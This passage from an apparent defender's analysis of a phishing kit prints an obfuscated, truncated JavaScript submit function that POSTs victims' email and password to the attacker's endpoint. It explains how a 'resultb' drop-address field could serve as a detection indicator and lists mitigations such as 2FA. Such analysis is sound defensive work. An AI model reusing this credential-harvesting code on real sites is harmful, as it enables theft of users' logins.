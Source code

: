 The other interesting piece of this, is what data is sent within the POST request containing the victim's credentials. The `page.js` file was very heavily obfuscated, however searching for the keyword `submit` within the HTML, enables us to see what is included in this POST request.

```javascript
function submit(_0x28dfx2,_0x28dfx10)
{
	$[_0x3a19[16]] (
		{
			url:lp+ _0x3a19[18], type:_0x3a19[1],
			data: {
				email: _0x28dfx2,
				password: _0x28dfx10,
				submite: 1,
				resultb: re,
				true_login_link: tl
			} 
		... <continued>
```

The dictionary that is assigned to the JSON key `'data'`, is the really interesting part that is worth taking a closer look at. These are the values that are sent as part of the POST request. The `email` and `password` are fairly obvious, we can see that these values are passed as parameters in the `submit` function and will contain the values that the victim has typed into the username and password fields within the HTML form. The most interesting parameter sent in the POST request from a Defender’s perspective, is assigned to the key `'resultb'`. The value of this is another variable `'re'` and if we remember back to the HTM file that was attached to the email, this variable was set right at the beginning when the user opens it. Although, this cannot be 100% proven, it is believed that this is the email address that the phishing kit will send the credentials to, when they are received within the POST request.

**So, why should we care?** This email address is able to be used to track email campaigns from the same adversary by analysing the content of the HTM/HTML attachments. In addition to the email campaigns, it may also be possible to use this to detect new phishing domains that the adversary uses by looking for this email address within the body of POST requests (Note: this would require SSL interception). It is unlikely that an adversary would change their email address as frequently as they would change the domains they are using to host their phishing kits. Subsequently, this can be an effective method to aid phishing detection.

## Final Thoughts
Phishing continues to be one of the biggest cyber threats facing organisations and traditional approaches to mitigating it are ineffective. Adversaries are able to easily change the URLs and email addresses used in their campaigns quickly which makes blocking these  ineffective *(aka. the Whac-A-Mole tactic)*. The speed that adversaries are able to change their campaigns is not something that we, as Defenders, are able to keep speed with. I believe that it is necessary for us to spend more time doing in-depth analysis to identify better indicators that may be effective across many campaigns. 

### Mitigation Tactics
1. **2FA & Conditional Access** - 2FA as well as other conditional access controls are not a silver bullet and sophisticated phishing attacks will be able to subvert them (that's a post for another time). However, they do decrease the likelihood of compromised credentials being successfully used against an organisation. 
